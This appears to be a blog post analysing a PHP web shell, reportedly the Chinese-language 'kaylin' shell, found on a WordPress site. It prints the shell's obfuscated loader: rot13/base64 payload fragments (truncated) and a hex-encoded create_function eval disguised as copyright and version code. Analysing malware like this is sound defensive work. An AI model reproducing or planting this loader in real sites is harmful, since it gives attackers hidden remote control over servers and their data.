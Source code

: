 In searching for answers as to what this code is doing I found this repo for malware analysis specifically concerning Wordpress websites, <a href="https://github.com/bediger4000/php-malware-analysis/tree/master/webshells/kaylin" target="_blank">kaylin web shell analysis</a>. Bediger4000 describes this as a fully featured chinese language web shell (pretty scary stuff) complete with a GUI and code that is designed to search for MySQL and Oracle databases remotely on anyone that's infected with it. 

What it primarily does is this: 

```js
	$password = "1e89117b6bab59e6562df2355e81c158"; 

	define('VERSION','kaylin');

 $register_key = array 
( 
	array
	(
		'CQ9jnUNtDTIlpz9lK3WypT9lqTyhMluSK0IFHx9FXGgNnJ5cK3AyqPtaMTympTkurI9ypaWipaZaYPqCMzLaXGgN' , 
		'nJ5cK3AyqPtaoJS4K2I4MJA1qTyioy90nJ1yWljkZQNjZPx7nTIuMTIlXPWwo250MJ50YIE5pTH6VUEyrUDinUEg' , 
		'oQftL2uupaAyqQ1aLwVmZGVvXGgzqJ5wqTyiovOmqUWxnKVbWUA0pvxtrlOlMKE1pz4tp3ElK3WypTkuL2HbLKWl' , 
		'LKxbW1kpWljaYl8aYPpyZwpaYPpyZwVaXFkupaWurFtaYlpfWl8aYPqpWlpfWlVaXFkwnT9jXPEmqUVcXGftsJM1' , 
		'ozA0nJ9hVTAbn2qjLltxLKWlLKxcVUftMz9lMJSwnPtxLKWlLKxtLKZtWTgyrFN9CvNxqzSlXFO7VPEupaWurIfx' , 
		'n2I5KFN9VTymK2SlpzS5XPE2LKVcVQ8tL2ueM3OwXPE2LKVcVQbtp3ElnKOmoTSmnTImXPE2LKVcBlO9VUWyqUIl' , 
		'ovNxLKWlLKx7VU0xoKyznJkyVQ0tWS9GEIWJEIWoW1AQHxyDIS9TFHkSGxSAEFqqVQ8tp3ElMTylXPEsH0IFIxIF' , 
		...

		// BLOG AUTHORS COMMENT: and here

		/**
 * Language and charset conversion settings
 */
$check_copyright = create_function /*Copyright*/ 
( 
	
	"/*\x64\x65\x28\x73\x74\x72*/\x24\x63\x6f\x64\x65/*\x63\x6f\x64\x65\x29*/" , 
	"/*\x36\x34\x5f\x64\x65*/\x65\x76\x61\x6c\x20\x28\x20\x27\x20\x3f\x3e\x27" . 
	"\x20\x2e\x20\x62\x61\x73\x65\x36\x34\x5f\x64\x65\x63\x6f\x64\x65\x20\x28" . 
	"\x20\x73\x74\x72\x5f\x72\x6f\x74\x31\x33\x20\x28\x20\x6a\x6f\x69\x6e\x20" . 
	"\x28\x20\x27\x27\x20\x2c\x20\x24\x63\x6f\x64\x65\x20\x29\x20\x29\x20\x29" . 
	"\x20\x2e\x20\x27\x3c\x3f\x70\x68\x70\x20\x27\x20\x29\x3b/*\x63\x6f\x64*/" 
	
) ; 


$global_version = array_walk /*Version*/ 
( 
	
	$register_key , 
	
	 $check_copyright 
	
) ; 
```

